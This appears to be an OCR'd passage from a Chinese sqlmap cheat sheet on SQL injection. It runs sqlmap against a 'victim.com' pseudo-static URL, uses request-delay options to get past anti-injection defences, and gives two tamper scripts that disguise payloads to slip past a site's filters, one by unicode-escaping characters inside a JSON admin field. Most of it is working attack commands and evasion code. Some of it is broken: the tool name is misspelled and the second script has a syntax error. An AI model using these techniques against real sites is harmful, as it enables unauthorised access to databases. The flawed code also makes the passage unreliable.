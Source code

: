**伪静态注入**

```
sqpmap  -u http://victim.com/id/666*.html --dbs  //在html扩展名前加个'*'
```

**请求延时**

Web防注入措施，在访问两次错误页面后，第三次必须访问正确的页面

```
--delay 2 //延时两秒访问

--safe-freq 30  //人为配置次数
```

**Tamper**

DIY 部分，最具可玩性的地方。

基本注入语句是一样的，可不同的网站过滤规则不一样，此时就需要编写Tamper进行本地化。

+   框架

```python
# sqlmap/tamper/escapequotes.py

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload.replace("'", "\\'").replace('"', '\\"')

'''
priority 表示脚本的优先级，用于有多个脚本的情况
'''
```

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    data = '''{"admin_user":"admin%s","admin_pass":65};'''
    payload = payload.lower()
    payload = payload.replace('u', 'u0075')
    payload = payload.replace('o', 'u006f')
    payload = payload.replace('i', 'u0069')
    payload = payload.replace(''', 'u0027')
    payload = payload.replace('"', 'u0022')
    payload = payload.replace(' ', 'u0020')
    payload = payload.replace('s', 'u0073')
    payload = payload.replace('#', 'u0023')
    payload = payload.replace('>', 'u003e')
    payload = payload.replace('<', 'u003c')
    payload = payload.replace('-', 'u002d')
    payload = payload.replace('=', 'u003d')
    return data % payload
```
